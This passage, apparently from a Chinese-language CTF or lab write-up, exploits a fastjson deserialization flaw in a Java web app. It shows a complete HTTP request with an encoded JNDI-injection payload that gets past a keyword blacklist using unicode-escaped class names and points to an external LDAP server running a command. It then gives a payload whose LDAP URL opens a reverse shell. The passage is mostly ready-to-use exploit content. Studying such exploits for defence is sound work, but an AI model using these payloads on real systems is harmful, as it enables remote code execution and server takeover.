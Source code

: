 可以发现传入 data 这个 json 字符串然后进行鉴权并且给到 `JSON.parse`​解析，其实可以想到绕过黑名单 + fastjson 打 C3p0 不出网这个思路，也可以直接打 jndi 注入吧，跟进 `SecurityCheck`​

[![](assets/1710900819-d8a240a9ba1d362b958ff7d61eaab13a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229162655-4c586f2a-d6dc-1.png)

可以想到用 16 进制或者 unicode 来进行绕过黑名单，所以有以下打法

### JNDI 注入 (出网 + jdk 低版本)

本地用的是 jdk8u65

```plain
POST /admin/user%0d HTTP/1.1
Host: localhost:8080
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 0
Content-Type: application/x-www-form-urlencoded
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
sec-ch-ua: "Not A(Brand";v="99", "Google Chrome";v="121", "Chromium";v="121"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"

data={{urlenc(eyJAdHlwZSI6Ilx1MDA2M1x1MDA2Zlx1MDA2ZFx1MDAyZVx1MDA3M1x1MDA3NVx1MDA2ZVx1MDAyZVx1MDA3Mlx1MDA2Zlx1MDA3N1x1MDA3M1x1MDA2NVx1MDA3NFx1MDAyZVx1MDA0YVx1MDA2NFx1MDA2Mlx1MDA2M1x1MDA1Mlx1MDA2Zlx1MDA3N1x1MDA1M1x1MDA2NVx1MDA3NFx1MDA0OVx1MDA2ZFx1MDA3MFx1MDA2YyIsImRhdGFTb3VyY2VOYW1lIjoibGRhcDovLzEwNy4xNzQuMjI4Ljc5OjEzODkvQmFzaWMvQ29tbWFuZC9jYWxjIiwiYXV0b0NvbW1pdCI6dHJ1ZX0=)}}
```

直接反弹 shell 即可

```plain
{"@type":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c","dataSourceName":"ldap://xxx:1389/Basic/ReverseShell/xxx/7979","autoCommit":true}
```
